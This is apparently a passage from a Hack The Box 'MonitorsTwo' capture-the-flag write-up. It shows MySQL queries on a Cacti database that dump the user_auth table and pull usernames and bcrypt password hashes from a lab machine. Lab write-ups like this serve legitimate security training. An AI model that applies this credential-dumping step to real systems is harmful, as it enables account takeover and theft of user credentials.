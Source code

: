 ```bash
| vdef                                |
| vdef_items                          |
| version                             |
+-------------------------------------+
111 rows in set (0.001 sec)
# dumping the first row of the table to enumarate its fields
MySQL [cacti]> SELECT * FROM user_auth LIMIT 1 \G;
*************************** 1. row ***************************
                    id: 1
              username: admin
              password: $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC
                 realm: 0
             full_name: Jamie Thompson
         email_address: admin@monitorstwo.htb
  must_change_password:
       password_change: on
             show_tree: on
             show_list: on
          show_preview: on
        graph_settings: on
            login_opts: 2
         policy_graphs: 1
          policy_trees: 1
          policy_hosts: 1
policy_graph_templates: 1
               enabled: on
            lastchange: -1
             lastlogin: -1
      password_history: -1
                locked:
       failed_attempts: 0
              lastfail: 0
           reset_perms: 663348655
1 row in set (0.000 sec)

ERROR: No query specified
# select the fields of interest of all users from the table
MySQL [cacti]> SELECT username, password FROM user_auth ;
+----------+--------------------------------------------------------------+
| username | password                                                     |
+----------+--------------------------------------------------------------+
| admin    | $2y$10$IhEA.Og8vrvwueM7VEDkUes3pwc3zaBbQ/iuqMft/llx8utpR1hjC |
| guest    | 43e9a4ab75570f5b                                             |
| marcus   | $2y$10$vcrYth5YcCLlZaPDj6PwqOYTw68W1.3WeKlBn70JonsdW/MhFYK4C |
+----------+--------------------------------------------------------------+
3 rows in set (0.001 sec)
```

> [The `\G` modifier in the MySQL command line client](https://pento.net/2009/02/27/the-g-modifier-in-the-mysql-command-line-client/).
